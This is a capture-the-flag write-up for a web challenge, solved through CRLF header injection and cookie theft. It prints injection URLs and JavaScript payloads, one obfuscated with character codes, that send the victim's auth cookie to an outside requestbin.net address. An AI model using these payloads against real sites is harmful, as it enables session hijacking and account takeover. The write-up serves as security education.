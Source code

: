 # URL Longener

## Description

Shou just wrote a short url generator to generate not so short urls.

Note 1: Flag is in the link admin created. Each user needs to be in the same IP and UA to get access their data.

Note 2: Server is running on a patched version to compensate the NGINX issue. Code here is solely for providing some insights. Do not test your payload on it.

## Solution

The [official writeup](https://github.com/shouc/wectf-2020#writeup---urllongener-crlf-injection--cors-misconf)
takes a much simpler route than we did, but we thought our CORS-free solution was interesting to consider.

When we create a link, we supply the URL that goes in a `Refresh` header sent to the link's visitors:
```python
location = html.escape(urllib.parse.unquote(location))
return 302, {"Refresh": "3; url=%s" % location}, "Redirecting you to %s in 3s..." % location
```
We quickly notice that we control the headers of the redirect response due to insufficient input validation.
We do this by inserting a URL-encoded newline into the location parameter. For example,
```
http://url.w-va.cf/redirect?location=http://google.com/#%0AContent-Type:%20text/javascript
```
does set the `Content-Type` header as shown. We considered what we could do with this, but did not think of CORS.
Instead, we jumped straight to manipulating the request body, which can be done by inserting two newlines instead of one:
```
http://url.w-va.cf/redirect?location=http://google.com/#%0A%0A<html>body</html>
```
Of course, this fails to do the desired thing due to location being `html.escape`d in the server code.

Now, to make things cleaner, we will just forgo the `http://google.com` URL entirely:
as it turns out, empty `url` in a `Refresh` header causes a simple refresh of the page instead of an error.

We eventually gave up on circumventing the escaping: `html.escape` seems to do its job properly.
This means that we cannot make the redirect serve an HTML page with a `script` tag.
But what if we use a server we control to serve a page that _sources a script_ from a redirect URL?
There is no obstacle to having JS code in the body. And indeed,
```html
<!DOCTYPE html>
<html lang="en">
<head>
<script src="http://url.w-va.cf/redirect?location=%0A%0Aalert('pwned');" />
</head>
</html>
```
does almost what we want, except for all the trailing garbage after our injection, such as the `Set-Cookie` header.

...

*Wait a second!*

The redirect page sends a `Set-Cookie` header.
This cookie is a timestamped JWT, but this turns out to not matter to us.
Our _goal_ is to pass for an admin, which means that we must match their fingerprint:
```python
@make_response
def get_index(req):
    fingerprint = base64.b64encode(str(req).encode("utf-8"))
    try:
        # get such user's array
        result = links[fingerprint]
```
where `make_response` ultimately does this, discarding the timestamp:
```python
def get_authorization(req):
    try:
        cookies = req[req.index("Cookie:") + 1:]
        for i in cookies:
            if "url_longener_auth" in i:
                return jwt.decode(i.split("=")[1], server_secret_key, algorithms=['HS256'])['token']
```
The other contents of the fingerprint basically just come from easily obtainable headers (`User-Agent`),
so it is sufficient for us to poach the cookie. We can do this by catching it into a string literal like so:
```js
function foo() {
  window.location = "http://requestbin.net/r/17z2eu81?c=" + content;
}
const content = `;foo()//
```
Why write it like this? Because the server-supplied response body also contains all of the payload after
the remaining headers, so the `Set-Cookie` will be caught into `content`, making the full response this:
```
[...]
Refresh: 3; url=

function foo() {
  window.location = "http://requestbin.net/r/17z2eu81?c=" + content;
}
const content = `;foo()//
Set-Cookie: url_longener_auth=[...]

Redirecting you to

function foo() {
  window.location = "http://requestbin.net/r/17z2eu81?c=" + content;
}
const content = `;foo()//
```
This is almost what we want, except that we're not allowed single or double quotes, and using backticks would break `content`.
There may have been a smarter solution, but we ended up just rewriting the code:
```js
function f(){a=[104,116,116,112,58,47,47,114,101,113,117,101,115,116,98,105,110,46,110,101,116,47,114,47,49,55,122,50,101,117,56,49,63,99,61];s=a.map(function(c){return String.fromCharCode(c)}).join([]);location=s+btoa(t);}t=`;f()//
```
Now, finally, this is nearly all there was to it: after getting the JWT by serving the supplied [index.html](./index.html),
we run [request.py](./request.py) which sets the headers needed for the fingerprint.

The last step frustrated us somewhat, as we hadn't considered that we might not need `X-Forwarded-For`.
Sending what we got in `requestbin` would break the fingerprint, and the correct solution turned out to be omitting it.
